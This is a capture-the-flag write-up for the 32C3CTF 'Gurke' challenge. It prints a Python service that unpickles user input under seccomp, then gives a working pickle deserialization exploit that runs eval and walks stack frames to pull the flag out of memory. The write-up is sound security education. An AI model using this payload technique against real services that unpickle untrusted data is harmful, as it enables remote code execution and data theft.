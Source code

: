 ```yaml
---
title: "32C3CTF - Gurke (Misc 300)"
header:
  overlay_image: /assets/images/32c3/gurke/header.jpg
  overlay_filter: 0.5
tags:
  - 32c3
  - writeup
  - misc
---
```


Remote code execution in a seccomp protected python service requiring
manipulating python internals to retrieve the flag in memory.

## Challenge Description

#### Points

300

#### Description

```
Non-standard gurke: https://32c3ctf.ccc.ac/uploads/gurke Talk to it via HTTP on
http://136.243.194.43/.
```

## Solution

We are given a vulnerable python script here:

```python
#!/usr/bin/env python
import sys
import os

import socket
import pickle
import base64
import marshal
import types
import inspect
import encodings.string_escape

class Flag(object):
    def __init__(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("172.17.0.1", 1234))
        self.flag = s.recv(1024).strip()
        s.close()
flag = Flag()

from seccomp import *

f = SyscallFilter(KILL)
f.add_rule_exactly(ALLOW, "read")
... snip ...
f.add_rule_exactly(ALLOW, "munmap")
f.load()

data = os.read(0, 4096)
try:
    res = pickle.loads(data)
    print 'res: %r\n' % res
except Exception as e:
    print >>sys.stderr, "exception", repr(e)

os._exit(0)
```

What this script does is:

1. Initialise a variable `flag` over a socket.
2. Apply seccomp rules to restrict syscalls. This is particularly important to
   note because we now do not have the option of connecting to the server to grab
   the flag. Which means we need to get the flag from memory by manipulating any
   references we can access.
3. Read data from the user, unpickle the data, and display the object returned.

Now, pickle is vulnerable to deserialisation attacks so we can immediately
execute arbitrary python code. My solution uses eval to execute a string:

```python
import pickle

class Exploit(object):
    def __reduce__(self):
        return (eval, ("__import__('sys').stdout.write('hello world')",))

pickle.loads(pickle.dumps(Exploit()))
```

Running the script:

```shell
$ python test.py
hello world
```

Now, after mimicking the environment and playing around in iPython, I realised
that you could get the flag by inspecting the traceback frames for their
globals. The final exploit script:

```python
import pickle
import inspect
import requests

class Exploit(object):
    def __reduce__(self):
        return (eval, ("__import__('inspect').currentframe().f_back.f_back.f_back.f_back.f_globals['flag'].flag",))

def main():
    payload = pickle.dumps(Exploit())
    print requests.post("http://136.243.194.43/", data=payload).text

if __name__ == "__main__":
    main()
```

Running the script:

```shell
$ python exploit.py
1: res: '32c3_rooDahPaeR3JaibahYeigoong'

retval: 0
```
